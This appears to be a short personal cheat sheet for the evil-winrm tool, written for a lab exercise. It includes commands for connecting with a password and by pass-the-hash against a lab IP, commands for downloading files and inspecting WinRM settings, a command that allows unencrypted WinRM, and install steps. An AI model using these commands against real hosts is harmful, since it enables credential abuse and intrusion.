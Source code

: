 tags: #powershell #evilwinrm #winrm 


# Connect

SImple HTTP Shell
```bash
./evil-winrm.rb -i 10.10.233.109 -u thmuser1 -p Password321
```

Pass-the-hash
```bash
./evil-winrm.rb -i 10.10.233.109 -u thmuser1 -H <2nd half of the dumped hashes>
```

```bash
./evil-winrm.rb -i 10.10.233.109 -u administrator -H f3118544a831e728781d780cfdb9c1fa
```
# Execution

To download a file...
```winrm
download <file>
```

# Evaluate the winrm configuration

References: https://www.dhruvsahni.com/verifying-winrm-connectivity

Look at the configuration of the listener
```cmd
winrm enumerate winrm/config/listener
```

Look at the configuration of the service
```cmd
winrm get winrm/config/service
```

Change the winrm configuration to allow an unencrypted connection
```cmd
winrm set winrm/config/service '@{AllowUnencrypted="true"}'
```


# Powershell connection with WinRM

```pwsh

```


# Installation

See https://github.com/HAckplayers/evil-winrm

```cmd
sudo gem install winrm winrm-fs stringio logger fileutils
```

```cmd
git clone https://github.com/Hackplayers/evil-winrm.git
```

This installs evil-winrm in /work/github/evil-winrm

